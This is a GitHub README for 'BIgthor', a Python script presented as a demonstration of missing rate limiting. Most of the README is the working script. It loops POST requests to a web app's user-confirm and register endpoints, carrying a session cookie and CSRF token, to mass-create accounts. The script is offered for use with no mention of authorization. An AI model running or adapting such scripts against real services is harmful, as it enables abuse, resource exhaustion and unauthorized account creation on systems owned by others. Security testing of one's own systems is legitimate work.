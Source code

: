 
# BIgthor

BIgthor is a Python script that demonstrates a lack of resources and rate-limiting vulnerability by simulating bulk user creation on a specified endpoint. The script sends multiple POST requests to the given URLs to create users in bulk.

## Features

- Simulates bulk user creation to test rate limiting and resource management vulnerabilities.
- Sends multiple POST requests to specified endpoints.

## Usage

1. Ensure you have Python and the `requests` library installed on your system.
2. Save the script as `BIgthor.py`.
3. Run the script using the command: `python BIgthor.py`.

## Example

```python
import requests

# URL and headers for the requests
url_confirm = "http://sdsdsdsdsdsdsdsd.jp/users/confirm"
url_register = "http://sdsdsdsdsdsdsdsd.jp/users/register"
headers = {
    "Cookie": "dd_session=eyJpdiI6Im9KS2FRRXFNWHZrdUxWemgvU2ZRQXc9PSIsInZhbHVlIjoiK0ppZVNKTjBZMUdQWHVWUW1Hb0JyNEFEY0lCRjZVQ1IvbjhTWmNFOXVLMjVNK0Q1REdpVjRHQWxvQmpzTjdxdEVpUGdla2sxSFN3YVlHTjNac0MxdVBCR1F0c0dRS0lnTWtCM2UxQXBzWm1YLzgyVWRQR2pSR3N4Q3pVL1Y4K2siLCJtYWMiOiIyMjQ3Mzc2MTc2ZGM4MDEwZWI5NDAxNzlmM2M0ODRlNmY4MWFkYWNlYTUzYzZiZjU4ZTNhM2I3YWYyNjJhNmJmIiwidGFnIjoiIn0%3D;",
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0",
    "Content-Type": "application/x-www-form-urlencoded"
}

# Data for the requests
data_confirm = {
    "organizationId": "269",
    "name": "ishan",
    "email": "ishan%40asa.ass",
    "roleId": "3",
    "_token": "pQmDc7bx9oXSrF6fdlJ9p3DXvcJmJIK13vp8kC5R"
}

data_register = {
    "_token": "pQmDc7bx9oXSrF6fdlJ9p3DXvcJmJIK13vp8kC5R"
}

def create_users(count=30):
    for _ in range(count):
        response_confirm = requests.post(url_confirm, headers=headers, data=data_confirm)
        response_register = requests.post(url_register, headers=headers, data=data_register)
        if response_confirm.status_code == 200 and response_register.status_code == 200:
            print("User created successfully")
        else:
            print("Failed to create user")

if __name__ == "__main__":
    create_users()
```

## License

This project is licensed under the MIT License.
